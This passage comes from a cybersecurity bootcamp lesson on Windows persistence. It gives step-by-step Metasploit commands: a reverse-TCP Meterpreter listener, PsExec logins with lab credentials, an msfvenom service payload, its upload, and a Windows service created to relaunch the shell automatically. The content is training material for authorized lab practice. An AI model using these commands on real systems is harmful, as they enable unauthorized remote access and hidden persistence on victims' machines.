	 - `use exploit/multi/handler`
	
3. Set the parameters to listen for the payload with the following commands:

	 - `set LHOST 172.22.117.100`
	 - `set LPORT 4444`
	 - `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
	 - `run -j`

     	

4. Load the module for PsExec with the following command:

	 - `use exploit/windows/smb/psexec`

5. Set the following options:

	 - set RHOST 172.22.117.20
	 - set SMBUser tstark
	 - set SMBPass Password!
	 - set SMBDomain megacorpone

     

6. Run the module, and you should get a shell back as SYSTEM.

**Note**: If you are curious what PSExec is, we will explore it more on Day 3. For now, you just need to know that PSExec is a way of remotely administrating Windows machines. There is also a Metasploit module for it.

7. In a new terminal tab/window, generate a Meterpreter payload using `msfvenom` with the following command:

     - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe-service > service.exe`

     

     - The format must be `exe-service` and not just `exe`. Executables run by Service Manager are different than regular executables.

8. In the Meterpreter shell, upload the executable you created by using the following commands:

	 - `cd ../../../`
	 - `upload service.exe`

     

9. Enter a command shell in your Meterpreter shell:

	 - `shell`
	
10. Create a new service that will use your payload with the following command:

	 - `sc create TestService binPath= "C:\service.exe" start= auto`

     

     -  `sc` stands for service control and is used to manage queries. We created a new service that will execute our payload and will automatically start on login.

     - **Note**: It's important to use double quotes instead of single quotes around the path to the executable. 

11. Manually start the service with the following command:

	 - `sc start TestService`

     

     - You should now get a Meterpreter session back from the service executing the payload.

You will now perform another persistence technique by creating a scheduled task that will execute a payload at a defined interval.

### 11.  Windows Persistence Activity

- [Activity File: Windows Persistence](Activities/03_Persistence/Unsolved/README.md)

### 12.Windows Persistence Activity Review 

- [Solution Guide: Windows Persistence](Activities/03_Persistence/Solved/README.md)

-------

© 2022 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.  
